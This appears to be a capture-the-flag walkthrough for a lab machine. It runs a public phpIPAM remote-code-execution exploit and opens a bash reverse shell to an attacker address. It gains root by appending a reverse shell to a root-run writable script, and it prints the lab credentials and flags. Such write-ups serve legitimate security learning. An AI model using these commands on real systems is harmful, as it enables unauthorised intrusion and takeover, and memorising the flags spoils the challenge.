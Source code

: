 ```yaml
---
sticker: emoji//1f415
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |



# RECONNAISSANCE
---

If we check the website, we can see this:

![](Pasted image 20250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![](Pasted image 20250403160417.png)

That just takes us to a Youtube video:


![](Pasted image 20250403160441.png)


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![](Pasted image 20250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![](Pasted image 20250403160710.png)

If we answer correctly, we get the following:

![](Pasted image 20250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![](Pasted image 20250403160828.png)


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![](Pasted image 20250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![](Pasted image 20250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![](Pasted image 20250403162334.png)

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted image 20250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![](Pasted image 20250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![](Pasted image 20250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![](Pasted image 20250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![](Pasted image 20250403164709.png)



